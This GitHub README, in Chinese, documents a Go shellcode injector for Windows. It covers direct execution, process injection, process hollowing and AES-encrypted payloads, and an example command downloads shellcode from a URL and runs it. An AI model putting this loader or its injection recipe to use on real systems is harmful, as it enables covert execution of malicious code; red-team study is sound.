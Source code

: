 # ShellcodeInjecterGo

这是一个用Go语言编写的Windows shellcode执行工具。支持多种shellcode注入方式，包括直接执行、进程注入和进程镂空，并集成了高级的AES加密保护机制。

## 功能特性

- 支持多种shellcode输入方式
    - 直接输入字节 (-i)
    - 从文件读取 (-f)
    - 从URL下载 (-u)
- 支持多种执行方式
    - 直接在当前进程中执行
    - 通过PID注入到指定进程 (-p)
    - 通过进程名注入到指定进程 (-n)
    - 创建并镂空新进程 (-e)
- 安全特性
    - AES-256加密保护
    - 随机IV生成
    - PKCS7填充
- 详细的错误处理和调试信息
- 支持Windows系统

## 系统要求

- Windows操作系统
- Go 1.16或更高版本
- golang.org/x/sys/windows包

## 安装

```bash
# 克隆仓库
git clone https://github.com/10cks/ShellcodeInjecterGo.git

# 进入项目目录
cd ShellcodeInjecterGo

# 构建项目
go build -o ShellcodeInjecterGo.exe
```

## 使用方法

### 命令行参数

```
-i string    直接指定shellcode字节
-f string    从文件加载shellcode
-u string    从URL下载shellcode
-p int       指定注入的目标进程ID（可选）
-n string    指定注入的目标进程名称（可选）
-e string    指定要镂空的可执行文件路径（可选）
-debug       启用调试输出
```

### 使用示例

1. 从URL加载shellcode并直接执行：
```bash
shellcode-runner.exe -u http://example.com/shellcode.bin -debug
```

2. 通过进程ID注入shellcode：
```bash
shellcode-runner.exe -f shellcode.bin -p 1234
```

3. 通过进程名称注入shellcode：
```bash
shellcode-runner.exe -f shellcode.bin -n "notepad.exe"
```

4. 进程镂空执行：
```bash
shellcode-runner.exe -f shellcode.bin -e "C:\Windows\notepad.exe"
```

## 技术实现细节

### 加密保护机制
- AES-256 CBC模式加密
- 随机密钥和IV生成
- PKCS7填充标准
- 内存安全处理

### 进程操作
1. 直接执行模式
    - VirtualAlloc
    - RtlMoveMemory
    - CreateThread
    - WaitForSingleObject

2. 进程注入模式
    - OpenProcess
    - VirtualAllocEx
    - WriteProcessMemory
    - CreateRemoteThread

3. 进程镂空模式
    - CreateProcessA（挂起方式）
    - ZwQueryInformationProcess
    - ReadProcessMemory
    - WriteProcessMemory
    - ResumeThread

### 进程查找
- CreateToolhelp32Snapshot
- Process32First/Process32Next
- UTF16字符串处理

## 错误处理

常见错误及解决方案：

1. Access Denied
    - 使用管理员权限运行
    - 检查进程权限
    - 确认目标进程访问权限

2. 内存操作错误
    - 检查系统资源
    - 验证shellcode大小
    - 确认内存分配权限

3. 进程操作错误
    - 确认目标进程存在
    - 验证进程名称/ID正确性
    - 检查进程状态

4. 加密相关错误
    - 验证密钥完整性
    - 检查数据块大小
    - 确认填充正确性

## 安全警告

⚠️ 本工具具有潜在的危险性，可能被滥用：
- 仅可用于授权的安全测试
- 不得用于未经授权的系统
- 不得用于恶意目的
- 使用加密功能时注意密钥管理

## 贡献指南

欢迎提交Pull Request或Issue来改进本项目：
1. Fork本仓库
2. 创建您的特性分支
3. 提交您的改动
4. 推送到您的分支
5. 提交Pull Request

## 许可证

本项目采用MIT许可证 - 详见 [LICENSE](LICENSE) 文件

## 免责声明

本工具仅供安全研究和教育目的使用。使用本工具进行任何未经授权的测试或攻击行为，后果由使用者自行承担。作者不对任何滥用或非法使用负责。

## 致谢

- [ChrisPritchard/golang-shellcode-runner](https://github.com/ChrisPritchard/golang-shellcode-runner)
- Windows系统编程文档
- Go语言社区